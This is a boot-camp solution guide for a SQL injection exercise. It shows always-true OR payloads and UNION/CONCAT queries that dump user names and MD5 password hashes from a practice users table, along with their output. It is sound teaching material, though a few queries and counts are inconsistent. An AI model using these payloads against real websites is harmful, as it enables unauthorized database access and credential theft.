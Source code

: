 ## Solution Guide: SQL Refresher and Unintended SQL Queries

In this activity, you designed several malicious SQL payloads that you will use in the next activity to test for SQL injection vulnerabilities against the Replicants live production website.

---

1. `select first_name, last_name from users where id = ''`

    - For this query, place a `1` between the single quotes and select Run at the top left of the DB Fiddle page.

      - `select first_name, last_name from users where id = '1'`
      
    - After running the query, the program will output the following:
          
        first_name |	last_name
        ------------ | ------------- 
        admin	| admin
      
2. `select first_name, last_name from users where id = ''`

    - To use the payload for the most common always true query, add `' OR '1' = '1` to the input.
      
    - The following will cause the database to return all the values in the table:

      - `select first_name, last_name from users where user_id = '1' OR '1' = '1' `

    - After running the query, the program will output the following:
      
        first_name | last_name 
        ------------ | ------------- 
        admin | admin
        gordon | brown
        hack | me
        pablo | picasso
        bob | smith
        
3. `select first_name, last_name from users where id = ''`

    - You can use any value for an always true statement as long as it equals itself.

    - The following will also cause the database to return all the values in the table:

      - `select first_name, last_name from users where id = '1' OR 'dog' = 'dog' `
      
    - The new query will return the same results as the previous query:
        
      first_name | last_name
      ------------ | ------------- 
      admin | admin
      gordon | brown
      hack | me
      pablo | picasso
      bob | smith   

4. **Bonus**: `select first_name, last_name from users where id = ''`

    - Adding the `UNION` command to the query will allow us to pull data from other fields or tables.

    - When adding an additional command with `UNION`, the count of fields requested (2 - first_name, password) needs to match the count of the original request (2 - first_name, last_name):

      - `select first_name, last from users where id = '1' UNION select first_name, password from users where '1' = '1'`

    - Note that `UNION` is basically running two queries together:

      - `select first_name, last from users where id = '1'`  

      - `select first_name, password from users where '1' = '1'`
      
    - The query will return the following:
        
      | first_name | last_name                        |
      | ---------- | -------------------------------- |
      | admin      | admin                            |
      | admin      | 5f4dcc3b5aa765d61d8327deb882cf99 |
      | gordon     | 575e22bc356137a41abdef379b776dba |
      | hack       | 97b9308f6a1f6a8524a91450dca473fa |
      | pablo      | 8c7c9b1149e9de712b9e5abab45d700c |
      | bob        | 4a02ce029a840716c61ee8fcda10158e |

    - Note that the one result of the first part of the query is returned, followed by the six results of the second query.

5. **Bonus**: `select first_name, last_name from users where id = ''`

    - To pull data from all four fields, the `UNION` and `CONCAT` command can be added to the request.

    - Because the count of fields requested (3 - first_name, last_name, password) needs to match the count of the original request (2 - first_name, last_name), we need to combine two of the fields with the `CONCAT` command, using the following query:

      - `select first_name, last_name from users where user_id = '1' UNION select CONCAT(first_name,last_name), password from users;
               `
            
    - The query will return the following:
        
      | first_name   | last_name                        |
      | ------------ | -------------------------------- |
      | admin        | admin                            |
      | adminadmin   | 5f4dcc3b5aa765d61d8327deb882cf99 |
      | gordonbrown  | 575e22bc356137a41abdef379b776dba |
      | hackme       | 97b9308f6a1f6a8524a91450dca473fa |
      | pablopicasso | 8c7c9b1149e9de712b9e5abab45d700c |
      | bobsmith     | 4a02ce029a840716c61ee8fcda10158e |


    - Note how the first and last names are combined in the `first_name` field, starting with the second record.

---

© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.
